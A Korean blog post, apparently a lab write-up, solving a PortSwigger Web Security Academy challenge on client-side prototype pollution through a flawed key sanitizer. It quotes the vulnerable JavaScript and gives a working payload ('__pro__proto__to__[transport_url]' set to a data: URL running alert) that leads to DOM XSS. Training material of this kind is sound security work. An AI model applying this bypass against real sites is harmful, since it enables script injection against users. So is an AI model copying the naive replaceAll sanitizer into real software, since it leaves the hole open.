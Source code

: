 ```yaml
---
layout: post
title: "Burp Academy-Prototype Pollution 다섯번째 문제:Client-side prototype pollution via flawed sanitization"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, Prototype Pollution]
toc: true
---
```



# 개요
- 프로토타입 폴루션(Prototype Pollution, 프로토타입 오염) 취약점 다섯번째 문제이다. 
- 문제 주소: https://portswigger.net/web-security/prototype-pollution/preventing/lab-prototype-pollution-client-side-prototype-pollution-via-flawed-sanitization
- 프로토타입 폴루션 설명 주소
1. https://portswigger.net/web-security/prototype-pollution
2. https://portswigger.net/web-security/prototype-pollution/preventing
- 난이도: PRACTITIONER (중간)

# 문제 분석 
프로토타입 폴루션 문제 4번처럼 이번에도 방어코드에 허점이 있는 경우이다. 

```
This lab is vulnerable to DOM XSS via client-side prototype pollution. Although the developers have implemented measures to prevent prototype pollution, these can be easily bypassed.

To solve the lab:

Find a source that you can use to add arbitrary properties to the global Object.prototype.

Identify a gadget property that allows you to execute arbitrary JavaScript.

Combine these to call alert().
```

# 풀이 
코드를 확인해본다. `searchLoggerFiltered.js` 파일을 본다. 

```js
async function logQuery(url, params) {
    try {
        await fetch(url, {method: "post", keepalive: true, body: JSON.stringify(params)});
    } catch(e) {
        console.error("Failed storing query");
    }
}

async function searchLogger() {
    let config = {params: deparam(new URL(location).searchParams.toString())};
    if(config.transport_url) {
        let script = document.createElement('script');
        script.src = config.transport_url;
        document.body.appendChild(script);
    }
    if(config.params && config.params.search) {
        await logQuery('/logger', config.params);
    }
}

function sanitizeKey(key) {
    let badProperties = ['constructor','__proto__','prototype'];
    for(let badProperty of badProperties) {
        key = key.replaceAll(badProperty, '');
    }
    return key;
}

window.addEventListener("load", searchLogger);
```

`sanitizeKey` 함수에 `badProperties` 라는 이름으로 프로토타입 폴루션에서 쓰이는 파라메터이름이 지정되어 있고, 이 이름이 포함된 경우 replaceAll 함수에 의해 공백으로 치환된다. 

https://portswigger.net/web-security/prototype-pollution/preventing 에도 설명이 있지만 이 코드는 허점이 있다. 예를들어, `__pro__proto__to__` 같은 식으로 파라메터를 전달하면 replaceAll에 의해 `__proto__` 부분이 공백으로 처리되어 `__pro` 와 `to__` 가 남는다. 결과적으로 `__proto__`파라메터가 부활한다. 

## 공격용 코드 만들기
이제까지의 경험을 살려서 다음과 같은 페이로드를 만든다. 

```
&__pro__proto__to__[transport_url]=data:text/javascript,alert(1)
```

URL전체적으로는 다음과 같은 형태이다. 
```
https://0ac5003f03b867fec421fa2c008b00bf.web-security-academy.net/?search=dd&__pro__proto__to__[transport_url]=data:text/javascript,alert(1)
```

시도해보면 alert창이 뜨는 것을 확인할 수 있다. 

![UNKNOWN_URL_SCHEME 에러](/images/burp-academy-prototype-pollution-5-1.png)

OK버튼을 누르면 축하한다는 메세지가 나온다. 

![UNKNOWN_URL_SCHEME 에러](/images/burp-academy-prototype-pollution-5-success.png)
